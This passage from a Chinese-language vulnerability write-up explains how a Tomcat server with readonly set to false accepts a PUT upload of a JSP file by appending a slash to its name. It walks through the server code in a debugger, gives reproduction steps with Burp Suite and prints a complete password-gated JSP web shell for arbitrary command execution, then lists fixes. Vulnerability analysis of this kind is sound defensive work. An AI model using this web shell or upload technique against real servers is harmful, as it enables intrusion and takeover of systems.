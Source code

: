 ​	通过normalize函数，对文件名进行字符串处理，我们跟进normalize函数，通过normalize函数将test.jsp/转换成test.jsp：

![Tomcat]({{ '/styles/images/tomcat/7.png' | prepend: site.baseurl  }})

​	函数执行完成，我们看一下之前的path没有了/符号：

![Tomcat]({{ '/styles/images/tomcat/8.png' | prepend: site.baseurl  }})

​	继续执行，通过rebind方法，将代码写入到文件中：

![Tomcat]({{ '/styles/images/tomcat/9.png' | prepend: site.baseurl  }})

​	通过os.write(buffer, 0, len);将buffer数组中的内容写入到相应path的文件中。

![Tomcat]({{ '/styles/images/tomcat/10.png' | prepend: site.baseurl  }})

​	debug完成，成功写入。

![Tomcat]({{ '/styles/images/tomcat/11.png' | prepend: site.baseurl  }})

## 4. 漏洞复现

### 4.1 搭建JAVA web服务器

   eclipse直接创建Dynamic web Project工程，在启动工程时，选用我们自己的含有漏洞的tomcat版本，将tomcat/conf/web.xml添加readonly参数：

```xml
<init-param>
	<param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```
### 4.2 构造payload
1.启动工程，在浏览器访问，通过burpsuite进行抓包：

![Tomcat]({{ '/styles/images/tomcat/12.png' | prepend: site.baseurl  }})

2.转发数据包，右键Send to Repeater，构造payload，实现任意命令执行：

![Tomcat]({{ '/styles/images/tomcat/13.png' | prepend: site.baseurl  }})

```java
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```

​	
### 4.3 任意命令执行

   点击go按钮，创建一句话木马文件，创建成功后，访问相应文件，执行任意命令：

![Tomcat]({{ '/styles/images/tomcat/14.png' | prepend: site.baseurl  }})

## 5. 修复方案

* 使用tomcat8及以上版本
* 在web.xml文件中将readonly参数删掉，或者将readonly参数设置为true